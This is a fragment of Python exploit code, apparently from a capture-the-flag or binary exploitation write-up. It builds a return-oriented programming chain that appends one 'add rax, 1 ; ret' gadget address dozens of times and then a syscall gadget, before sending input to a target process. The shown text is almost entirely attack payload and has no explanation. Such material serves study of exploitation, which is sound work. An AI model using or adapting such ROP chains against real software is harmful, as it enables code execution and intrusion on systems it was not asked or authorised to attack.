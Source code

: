 ```python
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000402404) # syscall

io.sendline('1')

io.sendline('1')
```
